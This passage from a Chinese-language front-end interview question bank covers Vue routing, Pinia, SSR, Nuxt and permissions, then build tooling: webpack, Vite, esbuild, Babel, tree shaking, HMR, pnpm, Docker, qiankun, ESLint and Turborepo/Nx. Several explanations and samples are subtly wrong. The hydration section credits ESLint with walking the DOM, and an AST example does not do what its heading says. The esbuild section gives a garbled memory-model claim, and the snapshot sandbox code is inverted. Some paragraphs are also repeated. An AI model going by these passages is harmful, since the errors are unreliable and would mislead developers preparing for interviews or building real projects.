| 兼容性 | IE8+ | 需要 history.pushState（IE10+） |
| 跨域 | 天然无跨域 | 需要后端配合 |

**hash 原理**：
```javascript
window.addEventListener('hashchange', () => {
  const hash = window.location.hash.slice(1)
  router.match(hash)
})
window.location.hash = '/home'
```

**history 原理**：
```javascript
history.pushState(state, title, '/home')
window.addEventListener('popstate', () => {
  router.match(location.pathname)
})
// 服务端需要：nginx try_files $uri $uri/ /index.html
```

#### 路由守卫

```javascript
// 全局前置守卫
router.beforeEach((to, from, next) => {
  if (to.meta.requiresAuth && !isAuth) {
    next('/login')
  } else {
    next()
  }
})

// 组件内守卫
export default {
  beforeRouteEnter(to, from, next) {
    next(vm => { vm.xxx = '可在回调中访问实例' })
  },
  beforeRouteUpdate(to, from, next) {
    this.loadData(to.params.id)
    next()
  },
  beforeRouteLeave(to, from, next) {
    if (this.hasUnsavedChanges) next(false) else next()
  }
}

// 执行顺序：
// 导航触发
//   → 全局 beforeEach (队列)
//   → 重用的组件 beforeRouteUpdate
//   → 路由配置的 beforeEnter
//   → 组件的 beforeRouteEnter
//   → 全局 async 守卫（router.beforeResolve）
//   → DOM 更新
//   → 组件 updated + beforeRouteEnter 的 next() 回调
```

---

### 9.14 Vuex vs Pinia 区别

| 特性 | Vuex | Pinia |
|------|------|-------|
| API | mutation/action/state/getter 四模块 | store(state + action + getter) |
| TypeScript | 需要手动类型声明 | 自动类型推导 |
| mutations | 同步变更，有 devtools 支持 | 无 mutation，action 即同步也异步 |
| 模块化 | modules（需手动 namespaced） | 每个 store 都是独立的，可自由组合 |
| 热更新 | 需要插件 | 原生支持 |
| 体积 | ~20KB | ~10KB |

```typescript
// Pinia 用法
export const useCounterStore = defineStore('counter', {
  state: () => ({ count: 0 }),
  getters: {
    double: (state) => state.count * 2
  },
  actions: {
    increment() { this.count++ },
    async fetchData() {
      const res = await api.get()
      this.count = res.data.count
    }
  }
})

const store = useCounterStore()
store.count++          // 直接修改
store.$patch({ count: 10 })
store.$reset()         // 重置
```

Pinia 的核心优势：**Composition API 风格 + 自动类型推导 + 更轻量**。

---

### 9.15 setup 为什么更强，Composition API 为什么出现

#### Options API 的问题

```vue
<!-- Vue2 Options API: 相关逻辑被拆分到各处 -->
<script>
export default {
  data() { return { count: 0 } },
  computed: { double() { return this.count * 2 } },
  methods: { increment() { this.count++ } },
  watch: { count(val) { console.log(val) } }
  // 问题：count 相关逻辑分散在 4 个地方
}
</script>
```

#### Composition API 的优势

```vue
<script setup>
import { ref, computed, watch } from 'vue'

const count = ref(0)
const double = computed(() => count.value * 2)
const increment = () => count.value++
watch(count, val => console.log(val))

// 复用：抽取为 composable
export function useCounter() {
  const count = ref(0)
  const double = computed(() => count.value * 2)
  return { count, double }
}
</script>
```

**三大优势**：
1. **逻辑复用**：mixin 有命名冲突、来源不明的问题，composable 函数清晰可控
2. **代码组织**：按功能而非选项类型组织大型组件代码
3. **类型推导**：更好的 TypeScript 支持

---

### 9.16 Vue3 为什么更快

1. **Proxy 响应式**：惰性代理，初始化快，内存占用低
2. **Block Tree**：diff 只遍历动态节点，跳过静态子树
3. **patchFlag**：精确标记动态类型，switch-case 快速分发
4. **静态提升**： hoistStatic 将静态节点提升到渲染函数外部，避免重复创建
5. **事件缓存**：静态事件 `onClick={handleClick}` 只创建一次
6. **v-memo**：跳过子树的更新
7. **Virtual DOM 重写**：整体比 Vue2 快约 50%

```
Vue2 更新一棵组件树：遍历所有节点 → O(N)
Vue3 更新一棵组件树：遍历 dynamicChildren → O(动态节点数 << N)
```

---

### 9.17 defineExpose / defineProps / defineEmits 原理

```vue
<!-- Parent.vue -->
<template>
  <Child ref="childRef" />
  <button @click="childRef.exposedMethod()">调用子组件方法</button>
</template>

<!-- Child.vue -->
<script setup>
const props = defineProps({ title: String, count: { type: Number, default: 0 } })
const emit = defineEmits(['update', 'delete'])

defineExpose({
  exposedMethod() { console.log('called') }
})
</script>
```

**原理**：
- `defineProps/defineEmits/defineExpose` 是编译器在编译 `<script setup>` 时识别的特殊编译器宏
- 编译后生成 `__sfc__` 元数据，供 devtools 和 HMR 使用
- 运行时它们是编译器宏，不是真正的函数调用

```javascript
// 编译后大概等价于：
const __sfc__ = {
  __name: 'Child',
  props: { title: String, count: { type: Number, default: 0 } },
  emits: ['update', 'delete'],
  setup(props, { emit }) {
    defineExpose({ exposedMethod })
    return () => h('div', props.title)
  }
}
```

---

### 9.18 Vue SSR 原理

#### 核心流程

| 步骤 | 说明 |
|------|------|
| 1 | 浏览器请求页面 |
| 2 | Server: `VueSSR.createApp(app).renderToStream()` |
| 3 | Vue 组件树渲染，字符串拼接 |
| 4 | 生成 HTML（路由数据注入） |
| 5 | 返回完整 HTML 给浏览器 |
| 6 | 浏览器：收到 HTML 显示首屏（可交互但未水合） |
| 7 | 加载 JS bundle |
| 8 | Client: `hydrate(app, container)` |
| 9 | 激活 HTML 中的 DOM 节点，建立响应式绑定 |

#### 关键API

```javascript
// server entry
import { createSSRApp } from 'vue'
import { renderToString } from 'vue/server-renderer'
import App from './App.vue'

export default function serverEntry(context) {
  const app = createSSRApp(App) // 必须用 createSSRApp
  return renderToString(app, context)
}

// client entry
import { createSSRApp } from 'vue'
const app = createSSRApp(App)
app.mount('#app', true) // hydrate模式挂载
```

#### hydrate（客户端水合）

ESLint遍历已存在的 DOM，通过 Virtual DOM 做一致性检查，对已有 DOM 建立 Vue 响应式绑定（事件监听、数据劫持），这个过程叫"水合"（Hydration），不重新创建 DOM。

---

### 9.19 Nuxt 原理

```
Nuxt = Vue 3 + Vite/Webpack + SSR + File-based routing
       + 自动导入 + SEO优化 + 路由守卫抽象

目录约定：
  pages/          → 自动生成路由
  components/     → 自动导入
  composables/    → 自动导入
  plugins/        → SSR友好的插件
  server/         → Nitro后端服务

请求流程（SSR模式）：
  1. 路由匹配（pages/ 文件树）
  2. 加载组件 + 执行 asyncData/useFetch
  3. createSSRApp + renderToString
  4. HTML返回浏览器
  5. 浏览器下载JS，hydrate
```

**Nuxt3 vs Nuxt2**：Nuxt3 基于 Vue3 Composition API + Nitro（支持 serverless）+ 自动导入（零配置）。

---

### 9.20 Vue 权限管理

#### 路由守卫方案

```javascript
router.beforeEach(async (to, from, next) => {
  const { role } = useUserStore()

  if (to.meta.requiresAuth && !isLogin()) return next('/login')
  if (to.meta.roles && !to.meta.roles.includes(role)) return next('/403')
  next()
})

// 动态路由注册
async function generateRoutes() {
  const menus = await fetchMenus()
  const routes = menus.map(menu => ({
    path: menu.path,
    component: () => import(`@/views/${menu.component}`),
    meta: { title: menu.title, roles: menu.roles }
  }))
  routes.forEach(r => router.addRoute(r)) // 运行时注册
}
```

#### 指令方案（按钮级权限）

```javascript
const permission = {
  mounted(el, binding) {
    const { value } = binding
    const roles = useUserStore().roles
    if (value && !roles.includes(value)) {
      el.parentNode?.removeChild(el)
    }
  }
}

app.directive('permission', permission)

// 使用
<button v-permission="'admin'">删除</button>
```

---

### 9.21 Vue 大型项目架构

**项目结构：**

| 目录 | 说明 |
|------|------|
| src/apps/ | 微前端应用 |
| src/packages/ | 共享包 |
| src/packages/ui/ | 组件库 |
| src/packages/utils/ | 工具函数 |
| src/packages/hooks/ | 组合式函数 |
| src/packages/constants/ | 常量 |
| src/layouts/ | 布局组件 |
| src/pages/ | 页面组件 |
| src/router/ | 路由配置 |
| src/store/ | 状态管理 |
| src/services/ | 接口服务 |
| src/composables/ | 组合式函数 |
| src/directives/ | 自定义指令 |
| src/plugins/ | 插件 |
| src/assets/ | 静态资源 |

**状态管理分层：**
- 页面级状态：组件内 `useState`
- 跨页面共享：Pinia store
- 服务端数据：loadData / route params

---

## Chapter 10: 工程化终极题库

### 10.1 webpack 原理（依赖图 + module/compilation/chunk + plugin机制 + Tapable）

#### 核心概念

| 概念 | 说明 |
|------|------|
| Entry (入口) | 解析入口模块 |
| import/require | 递归分析模块依赖 |
| loader | 处理非 JS 模块（ts, css, img 等） |
| chunk | 合并多个 module（按 splitChunks 规则） |
| bundle | 打包产物（JS 文件或代码分割后的分片） |

**流程：** webpack 入口 → 分析依赖图 → 打包成 chunk → 输出 bundle

#### 构建流程

| 阶段 | 说明 |
|------|------|
| 1. 初始化 | webpack CLI 启动，合并配置文件 |
| 2. 编译 | 创建 Compilation 对象 |
| 2a | entry 模块从文件读取得到 module |
| 2b | 分析 import/require 递归处理依赖 |
| 2c | 应用 loader（use 数组，从右到左） |
| 2d | 生成 chunk（图关系） |
| 2e | 调用 plugin（emit 钩子） |
| 3 | 输出文件到 dist |
| 4 | 完成 |

#### module / compilation / chunk 关系

| 概念 | 说明 |
|------|------|
| module | 每个源文件被解析后的对象（Source AST 编译后） |
| compilation | 某一次编译过程中的所有 module 和 chunk |
| chunk | 打包产物分组（由 entry / splitChunks / dynamic import 产生） |
| - entry chunk | 入口 chunk，包含 runtime |
| - async chunk | 按需加载的异步 chunk |
| - vendor chunk | 第三方库 chunk |
| bundle | 最终输出文件（一个 chunk 对应一个 bundle） |

#### plugin 机制（Tapable 钩子系统）

```javascript
const { SyncHook, AsyncSeriesHook } = require('tapable')

class MyPlugin {
  apply(compiler) {
    compiler.hooks.emit.tap('MyPlugin', (compilation) => {
      console.log('编译中...', Object.keys(compilation.assets))
    })

    compiler.hooks.emit.tapAsync('MyPlugin', (compilation, callback) => {
      setTimeout(() => { callback() }, 100)
    })

    compiler.hooks.compilation.tap('MyPlugin', (compilation) => {
      compilation.hooks.optimizeChunkAssets.tap('MyPlugin', (chunks) => {})
    })
  }
}
```

**Tapable 钩子类型**：
| 类型 | 行为 |
|------|------|
| SyncHook | 同步串行 |
| SyncBailHook | 同步，返回非undefined时停止 |
| SyncWaterfallHook | 同步，上一个返回值作为下一个输入 |
| AsyncParallelHook | 异步并行（Promise.all）|
| AsyncSeriesHook | 异步串行（await）|

---

### 10.2 Vite 为什么快

#### 核心对比：webpack vs Vite

```
webpack Dev Server:
  启动 → 递归构建整个依赖图（可能数千个模块）
          → 构建时间长（秒级到分钟级）
          → 修改 → 重新构建

Vite Dev Server:
  启动 → 启动Dev Server（秒级）
          → 按需编译（浏览器请求时才编译单个文件）
          → 修改 → HMR只更新改动的模块（毫秒级）
```

#### ESM Dev Server（无Bundle）

| 步骤 | 说明 |
|------|------|
| 1 | 浏览器请求: GET /src/main.ts |
| 2 | Vite Server 拦截请求 |
| 3 | 解析 import（裸导入：'vue'） |
| 4 | 转换为本地路径 |
| 5 | 替换 import.meta.url |
| 6 | 注入 HMR 运行时 |
| 7 | 处理 TypeScript/JSX（esbuild，ms级） |
| 8 | 返回 ES Module（浏览器直接执行） |

**优势：** 浏览器收到多个小文件，而不是一个巨大 bundle；利用 HTTP2 multiplexing 并行加载

#### HMR 流程

| 步骤 | 说明 |
|------|------|
| 1 | 文件修改 |
| 2 | Vite 监听到变化（fs.watch） |
| 3 | 重新编译改动的模块（esbuild，ms级） |
| 4 | 向浏览器推送 HMR 事件（WebSocket） |
| 5 | 浏览器端 HMR Runtime 接管 |
| 6 | 接受 `hot.accept(['./module'], callback)` |
| 7 | 根据边界更新受影响的模块 |
| 8 | 更新后重新执行 render（通常 < 50ms） |

Vite 不需要 bundle 的原因：现代浏览器原生支持 ESM，Vite 直接利用浏览器的能力分发模块，只在必要时编译单个文件。

Vite 不需要 bundle 的原因：现代浏览器原生支持 ESM，Vite 直接利用浏览器的能力分发模块，只在必要时编译单个文件。

---

### 10.3 ESBuild 为什么快

```
ESBuild 为什么比 ts-loader/babel-loader 快 10-100倍？

1. Go语言编写 → 编译为机器码，单进程多线程
   JavaScript（Babel/ts-loader）→ V8引擎解释执行

2. 完全兼容 Go 运行时内存模型
   - 无需 AST 在进程间传递
   - 无需序列化/反序列化

3. 无需 AST traversal
   - Babel: parse → traverse → transform → generate（多次遍历AST）
   - ESBuild: 一次遍历，同时完成解析和写入
   - 内存访问局部性极好

4. 从零编写解析器，非复用通用工具
   - 针对 JavaScript/TypeScript 定制的轻量解析器

Benchmarks（官方）：
  esbuild:    3.98s（编译30000个文件）
  rollup:     31.6s
  webpack:    47.7s
```

**ESBuild 的限制**：
- 不支持类型检查（需要 tsc --noEmit 配合）
- 不支持装饰器旧语法（需 babel）
- 不支持自定义 AST 转换（babel 的灵活性无法替代）

---

### 10.4 Rollup vs webpack 区别

| 特性 | webpack | Rollup |
|------|---------|--------|
| 定位 | 应用打包（development + production） | 库打包 |
| HMR | 完善 | 不支持 dev server HMR |
| 产物 | bundle（所有模块打包进一个/少数文件） | flat bundle（tree-shaking 效果最好）|
| tree-shaking | 支持但不够彻底（commonjs需额外配置） | 完美支持 ESM静态分析 |
| 插件生态 | 极其丰富 | 较少 |
| 输出格式 | IIFE/CJS/ESM/UMD | CJS/ESM/IIFE/UMD |
| chunk 分割策略 | 复杂但强大 | 简洁 |

```javascript
// Rollup 打包产物示例（天然 ESM，tree-shaking 完美）
// 输入：两个 ESM 模块，导出10个函数，只用3个
// 输出：只有3个函数及其依赖的代码（未使用的完全移除）

export default {
  input: 'src/index.js',
  output: {
    format: 'esm',
    file: 'dist/index.mjs',
    sourcemap: true
  },
  plugins: [resolve(), commonjs(), terser()]
}
```

**结论**：生产环境用 Vite（基于 esbuild 开发 + Rollup 生产构建），开发环境用 Vite（基于 esbuild + 原生 ESM）。

---

### 10.5 loader vs plugin 区别

| 维度 | loader | plugin |
|------|--------|--------|
| 处理阶段 | module 转换（文件→JS字符串） | 整个构建生命周期 |
| 执行时机 | 匹配文件路径时，链式调用 | 钩子回调（compiler/compilation） |
| 数量 | 处理单文件（链式，一个接一个） | 处理编译过程 |
| 接口 | `source → (loader pipeline) → JS string` | `apply(compiler) { compiler.hooks.xxx.tap(...) }` |
| 用途 | ts-loader, css-loader, vue-loader | HtmlWebpackPlugin, MiniCssExtractPlugin |

```javascript
// loader 示例：CSS 转换链
// css-loader: CSS → JS module（导出为字符串）
// style-loader: JS module → <style>标签注入DOM

// plugin 示例：生成报告
class BuildReportPlugin {
  apply(compiler) {
    compiler.hooks.done.tap('BuildReportPlugin', (stats) => {
      const { assets, modules } = stats.toJson({ assets: true, modules: true })
      console.log(`生成 ${assets.length} 个文件，共 ${modules.length} 个模块`)
    })
  }
}
```

---

### 10.6 AST 原理（parser → traverser → transformer → generator）

| 阶段 | 输入 | 输出 | 说明 |
|------|------|------|------|
| 1. Parser（解析） | 源代码 | Token 流 | 词法分析：source code → Token 流 |
| 2. Parser（解析） | Token 流 | AST | 语法分析：Token 流 → AST |
| 3. Traversal（遍历） | AST | 访问节点 | 访问每个节点（enter/exit） |
| 4. Transformer（转换） | AST | 修改后 AST | 遍历过程中修改/替换 AST 节点 |
| 5. Generator（生成） | 新 AST | 目标代码 | 新 AST → 目标代码（toCode） |

**visitor 示例：**
```javascript
visitor = {
  CallExpression: { enter(node) {}, exit(node) {} }
}
```

**示例：** 把 `require('fs')` 替换为 ESM import

```javascript
const acorn = require('acorn')
const { traverse } = require('ast-traverse')

const code = 'const add = (a, b) => a + b'
const ast = acorn.parse(code, { ecmaVersion: 2020 })

traverse(ast, {
  enter(node) {
    if (node.type === 'ArrowFunctionExpression') {
      console.log('发现箭头函数')
    }
  }
})
```

---

### 10.7 Babel 编译流程

| 阶段 | 说明 |
|------|------|
| 输入 | 源代码 |
| @babel/parser（Babylon） | 解析代码 |
| 输出 | AST（符合 ESTree 规范） |
| @babel/traverse | 遍历 AST（使用 visitor 模式） |
| 操作 | 收集依赖、调用 plugin/preset 进行节点转换 |
| @babel/template | 从字符串模板生成 AST 节点 |
| @babel/generator | 新 AST → 目标代码 + sourcemap |

**preset vs plugin：**
- preset = plugin 集合（@babel/preset-env = 所有 ES6+ 语法转换插件）
- plugin 优先级高于 preset，plugin 按顺序执行

```javascript
const babel = require('@babel/core')

const result = babel.transformSync(code, {
  filename: 'input.js',
  presets: ['@babel/preset-env'],
  plugins: [function() {
    return {
      visitor: {
        VariableDeclaration(path) {
          path.node.kind = 'let' // const → let
        }
      }
    }
  }]
})
```

---

### 10.8 source map 原理

```
bundle.js 末尾注释：
  //# sourceMappingURL=index.js.map

index.js.map 文件（JSON）：
{
  "version": 3,
  "sources": ["index.js"],
  "names": ["a", "b", "add"],
  "mappings": "AAAA,SAASC",  // VLQ编码的位置映射

  "sourcesContent": ["const a = 1\nconst b = 2\n..."]
}

// 浏览器 DevTools：source map → 断点停在源码
// VLQ（Variable Length Quantity）：用 base64 编码节省体积
```

**webpack 配置**：
```javascript
module.exports = {
  devtool: process.env.NODE_ENV === 'production'
    ? 'source-map'        // 最完整，单独文件
    : 'eval-cheap-module-source-map'  // 开发：快速，包含行号
}
```

---

### 10.9 tree shaking 原理（ESM静态分析 + usedExports + sideEffects）

```
tree shaking = 消除未使用的导出（Dead Code Elimination）

前提条件：
  1. ESM 静态分析（import/export 在模块顶层，编译时确定依赖）
  2. bundler 收集每个模块的 export 使用情况
  3. 递归追踪：从 entry 出发，标记用到的导出，删除未标记的

ESM vs CommonJS：
  ESM:   import { a } from './lib' → 静态分析可行
  CJS:   const lib = require('./lib') → 运行时才能确定
```

```
Tree Shaking 流程（webpack）：

编译阶段：
  1. 分析 import/export（静态，不执行代码）
  2. 确定模块依赖图

标记阶段（usedExports）：
  3. 从 entry 开始，递归标记被使用的导出
  4. 未标记的导出标记为 unused export

删除阶段（sideEffects）：
  5. 遍历标记后的 AST，删除未使用的声明
```

```javascript
// package.json
{
  "sideEffects": [
    "*.css",         // CSS 不 tree shake
    "./src/polyfill.js" // 有副作用的文件
  ]
  // 或设为 false：所有文件都视为无副作用
}

// webpack 配置
module.exports = {
  optimization: {
    usedExports: true,
    sideEffects: true,
  }
}
```

---

### 10.10 HMR 原理（webpack-dev-server + WebSocket + HMR Runtime）

**HMR 完整流程：**

| 步骤 | 说明 |
|------|------|
| 1 | 文件变化 |
| 2 | webpack-dev-server 监听文件变化（chokidar） |
| 3 | 重新编译变化的文件及其依赖链（增量编译，比全量快很多） |
| 4 | 通过 WebSocket 通知浏览器 |
| 5 | 浏览器端 HMR Runtime 接管 |
| 6 | hotCheck() 比较模块版本 |
| 7 | 找到模块的父依赖链 |
| 8 | 调用 hot.accept(['module'], callback) |
| 9 | 执行模块更新 + 回调 |
| 10 | 若父模块无法接受（无 accept），向上冒泡 |
| 11 | 直到找到接受者或到达 entry |
| 12 | 若均不接受，整页刷新 |

**更新顺序：** 自底向上更新（子模块 → 父模块 → 视图）

**Vite vs webpack HMR**：
- webpack HMR：webpack-dev-server 重新编译 → WebSocket推送 → 浏览器执行 accept 回调
- Vite HMR：esbuild 重新编译单个文件（ms级）→ WebSocket推送 → 浏览器替换对应模块

---

### 10.11 code splitting 原理 + chunk vs bundle 区别

```
code splitting = 将代码按需分割为多个 chunk（减少初始加载体积）

分割策略：
  1. 入口分割：每个 entry → 一个 chunk
  2. 动态 import：() => import('./chunk.js') → 异步 chunk
  3. splitChunks：提取公共依赖（node_modules → vendor）
```

```javascript
// 动态 import（自动生成异步 chunk）
const Home = () => import('./views/Home.vue')

// webpack 配置 splitChunks
module.exports = {
  optimization: {
    splitChunks: {
      chunks: 'all',
      minSize: 20000,
      cacheGroups: {
        vendors: {
          test: /[\\/]node_modules[\\/]/,
          name: 'vendors',
          priority: -10,
          reuseExistingChunk: true
        },
        common: {
          minChunks: 2,
          priority: -20,
          reuseExistingChunk: true
        }
      }
    }
  }
}
```

#### chunk vs bundle

| 维度 | chunk | bundle |
|------|-------|--------|
| 概念 | 编译时的代码分组逻辑 | 最终输出的文件 |
| 生成 | 由 webpack 根据 split 规则生成 | 由 chunk 生成 |
| 关系 | chunk 是 bundle 的中间态 | 一个或多个 chunk 组合成一个 bundle |
| 类型 | entry chunk, async chunk, runtime chunk | JS/CSS/HTML bundle |

**编译产物：**

| 文件 | 说明 |
|------|------|
| dist/main.js | main bundle（来自 entry chunk） |
| dist/vendors.js | vendor chunk bundle（splitChunks 配置） |
| dist/Home.abc123.js | 异步 chunk bundle（dynamic import） |

---

### 10.12 webpack 优化

#### splitChunks

```javascript
splitChunks: {
  chunks: 'all',
  cacheGroups: {
    defaultVendors: {
      test: /[\\/]node_modules[\\/]/,
      priority: -10,
      reuseExistingChunk: true,
      name: 'vendors'
    },
    common: {
      minChunks: 2,
      priority: -20,
      reuseExistingChunk: true
    }
  }
}
```

#### tree shaking + terser

```javascript
optimization: {
  usedExports: true,
  sideEffects: true,
  minimizer: [
    new TerserPlugin({
      terserOptions: {
        compress: {
          drop_console: true,
          drop_debugger: true
        }
      }
    })
  ]
}
```

#### babel-loader 优化

```javascript
{
  loader: 'babel-loader',
  options: {
    cacheDirectory: true, // 缓存编译结果（提速50%+）
    cacheCompression: false
  }
}
```

#### 持久化缓存

```javascript
module.exports = {
  cache: {
    type: 'filesystem',  // webpack5 文件系统缓存
    buildDependencies: { config: [__filename] }
  }
}
// 二次构建：只重新编译变化的模块，其他从缓存恢复
```

#### thread-loader（多进程编译）

```javascript
{
  test: /\.js$/,
  use: [
    {
      loader: 'thread-loader',
      options: { workers: 4 }
    },
    'babel-loader'
  ]
}
```

---

### 10.13 pnpm 为什么快（硬链接 + 内容寻址存储）

```
pnpm vs npm/yarn 磁盘模型：

npm/yarn（扁平化）：
  node_modules/
    vue/
    lodash/
    lodash-es/
  → 同一库的不同版本各存一份，占用大量磁盘

pnpm（非扁平化 + 内容寻址存储）：
  .pnpm/
    vue@3.0.0/node_modules/vue/   ← 全局唯一存储（内容寻址）
    lodash@4.17.0/node_modules/lodash/
  项目 node_modules/
    vue → hardlink → .pnpm/vue@3.0.0/node_modules/vue/
    lodash → hardlink → .pnpm/lodash@4.17.0/node_modules/lodash/

硬链接原理：
  - 文件系统 inode 引用，同一物理文件多个路径
  - 删除一个硬链接，其他硬链接仍存在（引用计数>0）
  - 不复制文件内容，创建硬链接几乎是 O(1) 操作

pnpm 安装流程：
  1. 检查 store（~/.pnpm-store）是否有目标包
  2. 有 → 立即创建硬链接（秒级）
  3. 无 → 下载 → 存入 store → 创建硬链接
```

```
npm install vs pnpm install（node_modules/ 大时差距巨大）：

npm:  每次都从 registry 下载 + 大量文件 IO 解压
      → 速度慢 3-10 倍

pnpm: 硬链接复用全局 store
      → 安装速度极快
      → 磁盘占用极小（全局只存一份）
```

---

### 10.14 npm / yarn / pnpm 区别

| 特性 | npm | yarn | pnpm |
|------|-----|------|------|
| 安装速度 | 慢 | 中 | 快（硬链接）|
| 磁盘占用 | 大（重复存储） | 中 | 小（内容寻址）|
| 幽灵依赖 | 有（扁平化） | 有 | 无（非扁平化）|
| lock文件 | package-lock.json | yarn.lock | pnpm-lock.yaml |
| monorepo | npm workspaces v7+ | yarn workspaces | pnpm workspaces |

```bash
# pnpm workspaces
# pnpm-workspace.yaml
packages:
  - 'packages/*'
```

---

### 10.15 CI/CD 与 Git rebase vs merge

#### CI/CD

```
CI (Continuous Integration)：
  - 每次 push 自动运行：lint → test → build
  - 工具：GitHub Actions, GitLab CI, Jenkins, CircleCI

CD (Continuous Deployment/Delivery)：
  - CI 通过后自动部署到测试/生产环境
  - 工具：GitHub Actions + AWS/GCP, ArgoCD

流程：
  push → GitHub Actions → lint + test → build
                                        ↓
                                  通知（Slack/钉钉）
                                        ↓
                                  自动部署到 Staging
                                        ↓
                                  人工审批（可选）
                                        ↓
                                  自动部署到 Production
```

#### Git rebase vs merge

```
A---B---C  (feature)
     \
      D---E  (main)

merge:
  git checkout main && git merge feature
  结果：A---B---C---D---E---(merge commit)
  优点：保留完整分支历史
  缺点：提交历史可能混乱

rebase:
  git checkout feature && git rebase main
  结果：A---B---D---E---C'（C被重新应用在E之上）
  优点：提交历史线性、清晰
  缺点：重写提交（不要对已推送的提交 rebase！）

原则：
  - 本地分支 → 可以 rebase（整理提交历史）
  - 已推送的共享分支 → 只 merge
  - squash merge：git merge --squash → 将多个提交压缩为一个
```

---

### 10.16 Docker 为什么流行

```
Docker = 容器化技术，轻量级虚拟化

解决的问题：
  1. 环境一致性问题："在我机器上能跑" → 开发/测试/生产一致
  2. 快速启动：虚拟机（分钟级）vs Docker（秒级）
  3. 资源隔离：CPU/内存/网络/文件系统隔离

核心概念：
  Image（镜像）: 只读模板（类比：类）
  Container（容器）: Image 的运行实例（类比：对象）
  Dockerfile: 构建镜像的指令文件
  Registry: 镜像仓库（Docker Hub、私有registry）
```

```dockerfile
FROM node:18-alpine
WORKDIR /app
COPY package*.json ./
RUN npm ci --only=production
COPY . .
EXPOSE 3000
CMD ["node", "server.js"]
```

```bash
docker build -t my-app:1.0 .
docker run -p 3000:3000 my-app:1.0
docker push my-registry.com/my-app:1.0
```

**容器编排**：Docker Compose（单机多容器）→ Kubernetes K8s（生产级大规模集群管理）。

---

### 10.17 微前端是什么 + qiankun 原理

```
微前端 = 将微服务架构思想应用到前端
  → 多个独立的前端应用（子应用）→ 组合为一个完整应用

解决的问题：
  1. 大型项目的团队自治（各团队独立开发/部署）
  2. 技术栈无关（React/Vue/Angular 混用）
  3. 增量升级（逐步迁移 legacy 代码）
  4. 独立部署
```

#### qiankun 架构

**主应用 (Main App) 支持多种子应用：**

| 子应用 | 技术栈 |
|--------|--------|
| 子应用 1 | Vue 3 |
| 子应用 2 | Vue 2 |
| 子应用 3 | React |

**隔离机制：**
- qiankun 沙箱（JS 隔离）
- Shadow DOM（样式隔离）

#### 沙箱机制

```javascript
// 快照沙箱（子应用修改 window，切换时快照/恢复）
class SnapshotSandbox {
  constructor() {
    this.modifyMap = {}
  }
  mount() {
    Object.keys(this.modifyMap).forEach(key => {
      window[key] = this.modifyMap[key]
    })
  }
  unmount() {
    this.modifyMap = { ...window }
  }
}

// 代理沙箱（ES Proxy，每个子应用有独立的 proxy window）
class ProxySandbox {
  constructor() {
    const proxyWindow = new Proxy({}, {
      get(target, key) { /* 优先取 proxy */ },
      set(target, key, value) { /* 写到自己 */ }
    })
  }
}

// 样式隔离：
// 1. Shadow DOM（attachShadow({ mode: 'open' })）
// 2. CSS Modules（类名加 hash）
// 3. BEM 规范前缀
```

#### 主应用注册子应用

```javascript
import { registerMicroApps, start } from 'qiankun'

registerMicroApps([
  {
    name: 'react-app',
    entry: '//localhost:3000',
    container: '#subapp',
    activeRule: '/react',
    props: { name: 'main app' }
  },
  {
    name: 'vue-app',
    entry: '//localhost:8080',
    container: '#subapp',
    activeRule: '/vue'
  }
])

start({ prefetch: 'all', singular: true })
```

---

### 10.18 Module Federation 原理（webpack5）



**Module Federation 核心概念：**
| 概念 | 说明 |
|------|------|
| Host | 主应用，引用远程模块 |
| Remote | 远程构建，暴露模块 |
| exposes | 远程模块的导出路径 |
| shared | 共享依赖（vue、react等） |
| 单例模式 | 版本一致时共享，版本不一致时单例 |

**vs qiankun：**
- qiankun：运行在主应用框架内，需要注册子应用，框架无关但需要适配
- MF：webpack 原生支持，无需框架适配，直接 import 远程模块
- qiankun：运行在主应用框架内，需要注册子应用，框架无关但需要适配
- MF：webpack 原生支持，无需框架适配，直接 import 远程模块

---

### 10.19 ESLint 原理（AST遍历 + 规则检测）



```javascript
// 自定义 ESLint 规则
module.exports = {
  meta: {
    docs: { description: '禁止使用 console' },
    fixable: 'code'
  },
  create(context) {
    return {
      CallExpression(node) {
        if (
          node.callee.type === 'MemberExpression' &&
          node.callee.object.name === 'console'
        ) {
          context.report({
            node,
            message: '禁止使用 console，请使用 logger',
            fix(fixer) {
              return fixer.replaceText(node, 'logger.log()')
            }
          })
        }
      }
    }
  }
}
```

ESLint 使用 visitor 模式遍历 AST，规则对象中声明的每个 key 对应一种 AST 节点类型，遍历到该类型节点时调用对应函数。

---

### 10.20 husky / lint-staged

```
Git Hooks = Git 操作触发自定义脚本（pre-commit, commit-msg, pre-push等）

husky = 在项目中自动配置 Git Hooks
lint-staged = 只对暂存区（staged）文件执行检查

流程：
  git commit → pre-commit hook 触发
              → lint-staged 读取 staged 文件列表
              → 对每个文件执行: eslint --fix
              → 若失败 → commit 被阻止
              → 若成功 → commit 完成
```

```bash
# 安装（v8+）
npm install -D husky lint-staged
npx husky install
npx husky add .husky/pre-commit "npx lint-staged"
```

```json
{
  "lint-staged": {
    "*.{js,vue,ts}": ["eslint --fix", "prettier --write"],
    "*.{css,scss}": ["stylelint --fix"],
    "*.md": ["markdownlint --fix"]
  }
}
```

---

### 10.21 Turborepo / Nx（任务编排 + 增量构建 + 缓存）

```
问题背景：
  大型 monorepo 中有数十个包
  每次构建都需要重新构建所有包 → 慢

解决方案：任务编排 + 智能缓存
```

#### Turborepo（Vercel 出品）

```
Turborepo = 任务管道编排器 + 智能缓存

核心思想：
  1. 定义任务依赖图（哪些任务先执行，哪些可并行）
  2. 缓存构建结果（基于文件hash）
  3. 增量构建（只重新构建受影响的包）
```

```json
// turbo.json
{
  "pipeline": {
    "build": {
      "dependsOn": ["^build"],
      "outputs": ["dist/**", ".next/**"]
    },
    "test": {
      "dependsOn": ["build"]
    },
    "lint": {
      "cache": true
    }
  }
}
```

缓存命中时：git push → GitHub Actions → Turbo 从远端缓存拉取 → 秒级完成。

#### Nx（Nrwl 出品）

```
Nx = 更强大的任务编排 + 依赖分析 + 可视化

与 Turborepo 的区别：
  1. 内置图形化 dashboard（nx graph）：可视化项目依赖图
  2. 更细粒度的受影响分析（affected:build, affected:test）
  3. 内置 ESLint/Prettier/Storybook/cypress 集成
  4. 分布式缓存（Nx Cloud，支持团队共享）

affected 流程（只构建测试受git变更影响的包）：
  git diff HEAD~10 → 分析受影响的包
  nx affected:build → 只构建/测试受影响的包
```



**共同目标：大型 monorepo 的"全量构建"变为"增量构建"，从分钟级降至秒级。**

